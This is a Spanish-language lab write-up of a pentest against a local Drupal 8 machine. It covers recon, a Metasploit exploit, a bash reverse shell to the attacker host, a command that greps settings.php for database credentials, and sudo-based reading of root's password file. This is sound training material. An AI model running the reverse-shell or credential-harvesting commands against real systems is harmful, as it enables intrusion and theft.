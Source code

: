 # Lab de Pentesting: Explotación y escalada de privilegios en máquina findyourstyle

Este repositorio documenta paso a paso cómo comprometer una máquina con Drupal 8 mediante un exploit conocido y escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, explotar una vulnerabilidad crítica en Drupal y, finalmente, escalar privilegios mediante análisis del sistema y abuso de binarios con privilegios.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `whatweb`
- `gobuster`
- `msfconsole`
- `netcat`


---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

![Ping a la IP](screenshots/ping.PNG)

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos

        nmap -sC -sV -p- 172.17.0.2 -oN scan.txt

![puertos](screenshots/snaceoPuertos.PNG)


Se identificó que el sitio web utiliza **Drupal 8** en el puerto 80.

---

### 4. Enumeración de directorios con Gobuster

    gobuster dir -u http://172.17.0.2/ -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt

![directorios](screenshots/enumerarDirectorios.PNG)

Se descubrieron los directorios:

- `/user`
- `/admin`

---

### 5. Explotación con Metasploit

Iniciamos Metasploit y buscamos exploits para Drupal 8:

    msfconsole
    search drupal 8



Y encontramos algunos exploits,seleccionamos el exploit:

![metasploit](screenshots/metasploit.PNG)

    use 0
    show options
    set RHOSTS 172.17.0.2
    run

Se logró obtener una **sesión meterpreter** activa.

![Ping a la IP](screenshots/meterpreter.PNG)

---

### 6. Escalada a shell interactiva

Ejecutamos:

    shell

![shell](screenshots/shell.PNG)

En la máquina atacante, se prepara el listener:

    sudo nc -lvnp 444

![nc](screenshots/netcat2.PNG)

Y en la máquina víctima:

    bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"

![bash](screenshots/bash.PNG)

Y en ya tenemos conexión:

![bash](screenshots/netcat.PNG)

---

### 7. Búsqueda de credenciales en settings.php

Visitamos HackTricks a buscar un sploit para drupal y nos encontramos la siguiente información:

    find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null

![hacktricks](screenshots/hacktricks.PNG)
![user](screenshots/userYpass.PNG)

Esto nos permitió localizar posibles credenciales de base de datos y usuarios del sistema.

---

### 8. Intento de login con usuario encontrado

![ballenita](screenshots/suBallenita.PNG)

Se prueba acceso con usuario `ballenita` pero no tiene permisos sudo. Se intenta un acceso sin TTY:

    script /dev/null -c "su ballenita"

![entrando](screenshots/entrando.PNG)

Funciona correctamente.

---

### 9. Abuso de binarios con privilegios

Se verifica que `ballenita` puede ejecutar ls y grep como root sin contraseña:

![root](screenshots/exeRoot.PNG)

Se ejecuta el comando:

    sudo /bin/ls /root

![root](screenshots/passRoot.PNG)

Se encuentra el archivo `secretitomaximo.txt` y se lee su contenido con:

    sudo /bin/grep '' /root/secretitomaximo.txt

![pass](screenshots/passRootEncontrada.PNG)

Se obtiene una posible contraseña de root.

---

### 10. Acceso root

Se prueba la contraseña obtenida y se confirma el acceso con privilegios de root.

![final](screenshots/final.PNG)

---

## Resultados finales

- Acceso root conseguido mediante explotación de Drupal 8.
- Escalada de privilegios exitosa utilizando binarios permitidos y acceso a archivos sensibles.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
